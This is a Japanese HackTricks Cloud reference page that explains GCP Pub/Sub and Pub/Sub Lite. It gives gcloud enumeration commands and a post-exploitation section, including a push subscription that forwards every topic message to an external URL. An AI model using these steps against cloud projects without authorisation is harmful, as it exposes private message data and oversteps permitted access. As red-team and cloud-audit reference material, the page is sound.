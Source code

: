 # GCP - Pub/Sub

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) を使って AWS ハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricks をサポートする他の方法:

* **HackTricks にあなたの会社を広告したい**、または **HackTricks を PDF でダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式の PEASS & HackTricks グッズ**](https://peass.creator-spring.com) を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) を発見し、独占的な [**NFT**](https://opensea.io/collection/the-peass-family) コレクションをチェックする
* 💬 [**Discord グループ**](https://discord.gg/hRep4RUj7f) に**参加する**か、[**テレグラムグループ**](https://t.me/peass) に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) を**フォローする**。
* **HackTricks** の GitHub リポジトリ [**HackTricks**](https://github.com/carlospolop/hacktricks) と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) に PR を提出して、あなたのハッキングのコツを共有する。

</details>

## Pub/Sub <a href="#reviewing-cloud-pubsub" id="reviewing-cloud-pubsub"></a>

Google [**Cloud Pub/Sub**](https://cloud.google.com/pubsub/) は、独立したアプリケーションがメッセージを行き来させるサービスです。基本的に、アプリケーションがメッセージの送受信を行うために**購読**する**トピック**があります（メッセージは内容といくつかのメタデータで構成されています）。

**トピックはメッセージが送信されるキュー**であり、**サブスクリプション**はユーザーが**トピック内のメッセージにアクセスするために使用するオブジェクト**です。トピックごとに**1つ以上のサブスクリプション**が存在し、サブスクリプションには3種類があります：

* **Pull**: このサブスクリプションのユーザーはメッセージをプルする必要があります。
* **Push**: URL エンドポイントが指定され、メッセージは直ちにそこに送信されます。
* **Big query table**: Push と同様ですが、メッセージを Big query テーブル内に設定します。

**デフォルト**では、メッセージは**7日間保持されます**が、この時間は**最大31日まで延長可能**です。また、10秒以内に**ACKされない場合**はキューに戻ります。

トピックはデフォルトで**Google 管理の暗号化キー**を使用して暗号化されます。しかし、KMS の**CMEK**（Customer Managed Encryption Key）も選択できます。

**デッドレター**: サブスクリプションは**最大配信試行回数**を設定できます。メッセージが配信できない場合、**指定されたデッドレタートピックに再公開されます**。

### バックアップとスキーマ

トピックには**バックアップ**が存在することがあり、そこにはより多くの**古い機密情報**が見つかる可能性があります。バックアップは、取得された時点の**未ACKのメッセージ**とその後のメッセージを保持し、デフォルトでは1週間生存します。

トピックを作成する際に、**トピックメッセージがスキーマに従う必要がある**と指定できます。

### 列挙
```bash
# Get a list of topics in the project
gcloud pubsub topics list
gcloud pubsub topics describe <topic>
gcloud pubsub topics list-subscriptions <topic>
gcloud pubsub topics get-iam-policy <topic>

# Get a list of subscriptions across all topics
gcloud pubsub subscriptions list
gcloud pubsub subscriptions describe <subscription>
gcloud pubsub subscriptions get-iam-policy <subscription>

# Get list of schemas
gcloud pubsub schemas list
gcloud pubsub schemas describe <snapshot>

# Get list of snapshots
gcloud pubsub snapshots list
gcloud pubsub snapshots describe <snapshot>
```
### ポストエクスプロイト

{% code overflow="wrap" %}
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"

# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create my_subscription --topic <topic_name>
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>

# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint <URL to push to>
```
{% endcode %}

## Pub/Sub Lite

[**Pub/Sub Lite**](https://cloud.google.com/pubsub/docs/choosing-pubsub-or-lite)は、**ゾーンストレージ**を持つメッセージングサービスです。Pub/Sub LiteのコストはPub/Subの**一部**であり、低コストが主要な考慮事項である**高ボリュームストリーミング**（秒間最大1000万メッセージ）パイプラインやイベント駆動型システムに適しています。

PubSub Liteには**トピック**と**サブスクリプション**がありますが、**バックアップ**や**スキーマ**はありません。以下の機能があります：

* **リザベーション**: Pub/Sub Liteリザベーションは、ユーザーが特定のリージョンでメッセージストリームの容量を予約する機能です。
* **オペレーション**: Pub/Sub Liteの管理と運用に関わるアクションやタスクを指します。

### 列挙
```bash
# lite-topics
gcloud pubsub lite-topics list
gcloud pubsub lite-topics describe <topic>
gcloud pubsub lite-topics list-subscriptions <topic>

# lite-subscriptions
gcloud pubsub lite-subscriptions list
gcloud pubsub lite-subscriptions describe <subscription>

# lite-reservations
gcloud pubsub lite-reservations list
gcloud pubsub lite-reservations describe <topic>
gcloud pubsub lite-reservations list-topics <topic>

# lite-operations
gcloud pubsub lite-operations list
gcloud pubsub lite-operations describe <topic>
```
<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でゼロからヒーローまでのAWSハッキングを学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい場合**や**HackTricksをPDFでダウンロードしたい場合**は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**telegramグループ**](https://t.me/peass)に**参加する**か、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>
